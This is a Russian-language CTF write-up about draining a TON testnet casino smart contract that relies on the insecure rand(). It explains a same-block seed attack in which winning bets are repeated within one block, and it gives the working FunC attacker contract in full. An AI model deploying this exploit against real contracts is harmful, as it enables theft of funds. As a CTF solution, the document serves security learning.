 # 4-day
- Дали [контракт](https://testnet.tonviewer.com/kQAgZ_lRPOWLs2aoWtsHAZWFFIZreZc9ItJ8A6vMr491_UZX), который запущен по адресу `kQAgZ_lRPOWLs2aoWtsHAZWFFIZreZc9ItJ8A6vMr491_UZX`
- Известен исходный код контракта

```jsx
#include "imports/stdlib.fc";

const gas_cost = 10000000;

() send(slice addr, slice body, int grams) impure inline_ref {
  ;; int_msg_info$0 ihr_disabled:Bool bounce:Bool bounced:Bool src:MsgAddress -> 011000
  var msg = begin_cell()
    .store_uint(0x18, 6)
    .store_slice(addr)
    .store_coins(grams)
    .store_uint(0, 1 + 4 + 4 + 64 + 32 + 1 + 1 + 32)
    .store_slice(body);
  send_raw_message(msg.end_cell(), SEND_MODE_REGULAR);
}

() recv_internal(int my_balance, int msg_value, cell in_msg_full, slice in_msg_body) impure {
    slice msg = in_msg_full.begin_parse();
    int flags = msg~load_uint(4);
    slice source_address = msg~load_msg_addr();
    if (flags & 1) {
        return ();
    }
    if (rand(10) < 4) {
        if (msg_value * 2 < my_balance - gas_cost) {
            send(source_address, "you won", msg_value * 2);
        } else {
            send(source_address, "vault is empty", my_balance - gas_cost);
        }
        return ();
    }
}

```

Это казино, на нём 100 тонов и надо их всех выкачать

# Решение

Таск основывается на том, что ещё в первый день Вова вкинул, что он знает как взломать контракт Тимура и после этого Тимур дописал `randomize_lt()`

Сама по себе`rand(n)` является небезопасной функцией и работает следующим образом:

- `seed` в контракте определяется `hash(block_seed, account_address)`
- `block_seed` текущего блока знают только валидаторы, а мы этот сид никак узнать не можем

> [Therefore, to predict the result of the random() function in a smart contract, you just need to know the current seed of the block, which isn't possible if you're not a validator.](https://docs.ton.org/v3/guidelines/smart-contracts/security/random-number-generation#how-can-someone-predict-a-random-number)

Тем не менее, можно провести атаку на рандом в пределах одного блока

## Как работает атака?

1. Отправляем первую ставку в казино
2. Если выиграли (получили сообщение `You won`) → продолжаем спамить такие же ставки в тот же блок
3. Если не получили ответа → блок сменился, мы проиграли, останавливаем атаку.
4. Повторяем процесс на новом блоке, пока не обанкротим казино.

Когда казино обанкротилось, выводим деньги из атаковавшего контракта себе на основной аккаунт

## Почему это работает?

`seed` фиксирован в рамках одного блока и если одна ставка выиграла, то и всё ставки в текущем блоке выиграют

## Код атакующего контракта

Может быть не идеальным, но он работает

```jsx
#include "imports/stdlib.fc";

const admin_address = "0QCpmGaG1ypBqdY757UNTZphiXJOMu0bGPxumvjYTu4KEhDj"a;
const vova = "kQAgZ_lRPOWLs2aoWtsHAZWFFIZreZc9ItJ8A6vMr491_UZX"a;

() send_real_bet(slice addr, slice body, int grams) impure inline_ref {
  var msg = begin_cell()
    .store_uint(0x18, 6)
    .store_slice(addr)
    .store_coins(grams)
    .store_uint(0, 1 + 4 + 4 + 64 + 32 + 1 + 1 + 32)
    .store_slice(body);
  send_raw_message(msg.end_cell(), SEND_MODE_REGULAR);
}

() recv_internal(int my_balance, int msg_value, cell in_msg_full, slice in_msg_body) impure {
    if (in_msg_body.slice_empty?()) {
        return ();
    }

    int op = in_msg_body~load_uint(32);

    slice cs = in_msg_full.begin_parse();
    int flags = cs~load_uint(4);
    if (flags & 1) {
        return ();
    }
    slice source_address = cs~load_msg_addr();
    
    if (op == 0) {
        send_real_bet(vova, "auto try", 133700000);
    }
    if (op == 1) {
        send_real_bet(vova, "init try", 100000000);
    }
    ;; ручка для вывода денег
    if (op == 2) {
        if (equal_slices_bits(admin_address, source_address)) { 
            cell msg =  begin_cell()
                .store_uint(0x18, 6)
                .store_slice(source_address)
                .store_coins(0) 
                .store_uint(0, 1 + 4 + 4 + 64 + 32 + 1 + 1)
                .store_uint(0, 32)
                .store_slice("money back")
            .end_cell();
            send_raw_message(msg, 128);
            return ();
        }
    }

    return ();
}
```

# Схема атаки (упрощённая)

В реальности будет в районе 500 транзакций в одной

![[scheme_attack.png]]
Узел A - мой основной аккаунт, который принудительно запускает всё с сообщением `init try`

Узел B - атакующий контракт, который понял, что в этом блоке у нас подходящий `seed`, поэтому начинаем атаковать отсылая сообщения `auto try`

Узел C - казино, принимает ставки и возвращает сообщения `you won` с выигрышем

Атака прекратится после первой неудачи, когда узел C не вернёт никакого ответа

--------
@Jl4cTuk
